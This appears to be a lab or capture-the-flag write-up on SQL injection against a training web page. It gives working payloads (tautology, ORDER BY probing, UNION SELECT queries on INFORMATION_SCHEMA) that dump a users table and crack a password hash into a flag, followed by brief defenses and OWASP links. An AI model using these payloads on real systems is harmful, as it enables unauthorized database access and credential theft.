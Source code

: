 # SQL Injection Definition

A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.

# STEPS

## First Step:

Let's check input data is vulnerable of sql injection by sending single quote.  
Output:  
`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1`

## Second Step:

Now when we find that input data is vulnerable let's try to guest what they querying on this specific input.  
Let's try to send a 1 as id and see the output  
Output:

```
ID: 1
First name: Barack Hussein
Surname : Obama
```

Now let's try to select all rows by sending `1 or 1=1`  
Output:

```
ID: 1 or 1=1
First name: Barack Hussein
Surname : Obama
ID: 1 or 1=1
First name: Adolf
Surname : Hitler
ID: 1 or 1=1
First name: Joseph
Surname : Staline
ID: 1 or 1=1
First name: Flag
Surname : GetThe
```

Let's now use `UNION`, What's UNION Operator ?  
The UNION operator is used to combine the result-set of two or more SELECT statements.  
But to work UNION properly we must follow those conditions:

- Every SELECT statement within UNION must have the same number of columns
- The columns must also have similar data types
<!-- - The columns in every SELECT statement must also be in the same order -->

### Condition 1:

Let's find out how many columns they selected by using `order by`  
Usage of order by:

```
order by (column_name or index_of_selected_column)
```

We don't know column_name so we'll use `index_of_selected_column`  
order by 1 and order by 2 work perfectly as expected, but after using order by 3 it's return error. so we now know that we have two columns.

### Condition 2:

From the result we can see that both two columns is string

Now let's select current database

```
1 UNION SELECT NULL,DATABASE() // Member_Sql_Injection
```

And now let's try to find name of tables that databases have by sending this query

```
1 UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=0x4d656d6265725f53716c5f496e6a656374696f6e
```

```
INFORMATION_SCHEMA: provides access to database metadata, information about the MySQL server such as the name of a database or table, the data type of a column
TABLE_SCHEMA: The name of the schema (database) to which the table belongs
TABLE_NAME: The name of the table
// 0x4d656d6265725f53716c5f496e6a656374696f6e = Member_Sql_Injection
```

We find that database have just one tables (users)  
Now let's search for all columns names of this table

```
1 UNION SELECT NULL,COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=0x4d656d6265725f53716c5f496e6a656374696f6e AND TABLE_NAME=0x7573657273
```

### [Columns]

```
user_id
first_name
last_name
town
country
planet
Commentaire
countersign
```

After searching all the columns we find that `countersign` contain password and `Commentaire` contain description of password

```
ID: 1 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

After decrypt password and lower it thant hash it we'll get the flag

```
5ff9d0165b4f92b14994e5c685cdce28 = FortyTwo
fortytwo = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Flag : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Defenses

### Defense 1: Prepared Statements (with Parameterized Queries)

The use of prepared statements with variable binding (aka parameterized queries) is how all developers should first be taught how to write database queries. They are simple to write, and easier to understand than dynamic queries. Parameterized queries force the developer to first define all the SQL code, and then pass in each parameter to the query later. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

### Defense 2: Escaping All User-Supplied Input

This technique should only be used as a last resort, when none of the above are feasible. Input validation is probably a better choice as this methodology is frail compared to other defenses and we cannot guarantee it will prevent all SQL Injection in all situations.

# Resources

### [SQL Injection OWASP](https://owasp.org/www-community/attacks/SQL_Injection)

### [SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

### [SQL Injection Exercise 1](https://www.hacksplaining.com/exercises/sql-injection)

### [SQL Injection Exercise 2](https://application.security/free-application-security-training/owasp-top-10-sql-injection)
